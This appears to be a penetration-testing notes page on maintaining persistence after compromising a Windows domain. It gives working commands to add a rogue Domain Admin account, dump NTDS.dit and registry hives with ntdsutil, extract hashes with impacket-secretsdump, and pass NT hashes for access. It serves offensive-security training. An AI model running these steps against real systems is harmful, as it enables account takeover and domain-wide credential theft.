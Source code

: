 ```yaml
---
title: Maintaining persistence after compromise in Windows
draft: false
tags:
  - windows
  - persistence
  - ntds-dit
  - add-user
  - secretsdump
---
```


## Plot

Let's say you have successfully compromised the target system as root. However, you might not have stable shell connection such as SSH or you might not know the password and only have reverse shell connection.

These connections are still shell but it is loud and ugly. It is also complicated to reproduce. 

 Below are several ways of maintaining persistence once gained shell as a root.

### Adding Domain Admin User

I can simply create a new user and add the user in Domain Admins group as such:

```bash
net user jadu jadu101 /add
net group "Domain Admins" /add jadu
```
![](https://i.imgur.com/AfmJPXJ.png)



Now with evil-winrm, I can sign in as the created user:

![](https://i.imgur.com/y8ojooG.png)


### Dumping NTDS.dit

I can dump **NTDS.dit** to obtain hashes for users and pass those hashes to gain connection to the machine.

Below command dumps **SECURITY**, **SYSTEM**, and **NTDS.dit** file to Temp folder which could be downloaded to dump password hashes:

`powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"`

![](https://i.imgur.com/5cMUA6O.png)


On **/Temp/registry**, I have **SECURITY** and **SYSTEM** file which I download to local machine:

```bash
download SECURITY
download SYSTEM
```
![](https://i.imgur.com/9NfYoBM.png)


On **/Temp/Active-Directory**, I have **NTDS.dit** file which I download to local machine as well:

```bash
download ntds.dit
```
![](https://i.imgur.com/ix6S7VR.png)


Now with **secretsdump**, I can obtain bunch of password hashes:

`root@~/tools/mitre/ntds# /usr/bin/impacket-secretsdump -system SYSTEM -security SECURITY -ntds ntds.dit local`

![](https://i.imgur.com/yi7hUfY.png)


I can try to crack these hashes, but it is not necessary. I can pass the **NT** part of the hashes to gain shell connection:

![](https://i.imgur.com/OsTxNof.png)



[Here](https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/lateral-movement/alternate-authentication-material/wip-pass-the-hash) are more steps you can follow once you obtain hash for Administrator.
